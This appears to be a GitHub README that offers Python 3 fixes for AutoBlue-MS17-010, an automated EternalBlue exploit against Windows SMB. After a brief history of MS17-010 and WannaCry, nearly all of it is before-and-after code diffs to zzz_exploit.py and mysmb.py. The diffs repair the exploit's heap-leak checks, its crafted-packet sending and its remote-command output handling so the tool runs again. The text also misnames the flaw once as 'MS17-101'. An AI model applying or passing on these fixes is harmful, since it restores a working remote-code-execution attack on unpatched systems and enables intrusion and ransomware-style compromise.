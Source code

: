 # AutoBlue MS17-010 Python 3 Fix

MS17-010 is a security flaw in Microsoft Windows operating systems that was discovered in March 2017. This vulnerability allows remote attackers to execute arbitrary code on a target system by sending specially crafted packets over the network. The EternalBlue exploit, developed by the U.S. National Security Agency (NSA) and leaked by the hacking group Shadow Brokers in April 2017, takes advantage of the MS17-101 vulnerability, specifically the flaw in the Server Message Block (SMB) protocol, to remotely execute code on a target system, and potentially gaining full control over the system. EternalBlue gained notoriety for its usage in the WannaCry ransomware attack in May 2017, which affected hundreds of thousands of computers worldwide. Microsoft released a patch to fix the vulnerability shortly after it was discovered.

This repo provides suggestions to fix the Python 3 version of the AutoBlue-MS17-010 Exploit Code, which is a tool that automates the EternalBlue exploit. The suggestions specifically address the issue related to `str` and `bytes` types in the `mysmb.py` and `zzz_exploit.py` Python scripts.

The original repository containing all the AutoBlue-MS17-010 exploit files can be accessed at: https://github.com/3ndG4me/AutoBlue-MS17-010

### The suggested changes for `zzz_exploit.py`:

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Don't need to use `ord()` to convert `leakData` to Unicode:
    ```python
    Original:
    324        info['FRAG_POOL_SIZE'] = ord(leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ]) * X86_INFO['POOL_ALIGN']
    ---
    Modified:
    324        info['FRAG_POOL_SIZE'] = leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ] * X86_INFO['POOL_ALIGN']
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Don't need to use `ord()` to convert `leakData` to Unicode:
    ```python
    Original:
    328        info['FRAG_POOL_SIZE'] = ord(leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ]) * X64_INFO['POOL_ALIGN']
    ---
    Modified:
    328        info['FRAG_POOL_SIZE'] = leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ] * X64_INFO['POOL_ALIGN']
    ```

- Use `bytes` instead of `str` to join the `reqs` elements:
    ```python
    Original:
    399        conn.send_raw(req1[-8:]+req2+req3+''.join(reqs))
    ---
    Modified:
    399        conn.send_raw(req1[-8:] + req2 + req3 + b''.join(reqs))
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != 'Frag':
    ---
    Modified:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != b'Frag':
    ```

- Use `bytes` instead of `str` on the if statement:
    ```python
    Original:
    429        if leakData[0x4:0x8] != 'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ---
    Modified:
    429        if leakData[0x4:0x8] != b'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ```

### The suggested changes for `mysmb.py`:

- Don't need to import `smbserver`, just remove it:
    ```python
    Original:
    3          from impacket import smb, smbconnection, smbserver
    ---
    Modified:
    3          from impacket import smb, smbconnection
    ```

- Don't need to import `ConfigParser`, just remove it:
    ```python
    Original:
    9          try:
    10             import ConfigParser
    11         except ImportError:
    12             import configparser as ConfigParser
    ```

- Don't need to define the values below, just remove it:
    ```python
    Original:
    17         SMBSERVER_DIR   = '__tmp'
    18         DUMMY_SHARE     = 'TMP'
    ```

- Verify if `data` need to be converted to `bytes`:
    ```python
    Original:
    89         transData += (b'\x00' * padLen) + str.encode(data)
    ---
    Modified:
    83         if (type(data) == bytes):
    84             transData += (b'\x00' * padLen) + data
    85         else:
    86             transData += (b'\x00' * padLen) + data.encode('utf-8')
    ```

- Substitute `%COMPUTERNAME%` by localhost address `127.0.0.1`:
    ```python
    Original:
    420        self.__output = '\\\\%COMPUTERNAME%\\{}\\{}'.format(self.__share,self.__outputFilename)
    ---
    Modified:
    417        self.__output = '\\\\127.0.0.1\\{}\\{}'.format(self.__share,self.__outputFilename)
    ```

- Remove `errors='replace'` inside `decode()`:
    ```python
    Original:
    483        self.prompt = self.__outputBuffer.decode(errors='replace').replace('\r\n','') + '>'
    ---
    Modified:
    489        self.prompt = self.__outputBuffer.decode().replace('\r\n','') + '>'
    ```

- Don't need to convert `fd.read()` to `bytes`:
    ```python
    Original:
    502        output_callback(fd.read().encode('utf-8'))
    ---
    Modified:
    499        output_callback(fd.read())
    ```

- Remove `errors='replace'` inside `decode()`:
    ```python
    Original:
    528        print(self.__outputBuffer.decode(errors='replace'))
    ---
    Modified:
    525        print(self.__outputBuffer.decode())
    ```

- Remove third argument in `smbConfig.set()`:
    ```python
    Original:
    566        smbConfig.set('IPC$','path','')
    ---
    Modified:
    563        smbConfig.set('IPC$','path')
    ```
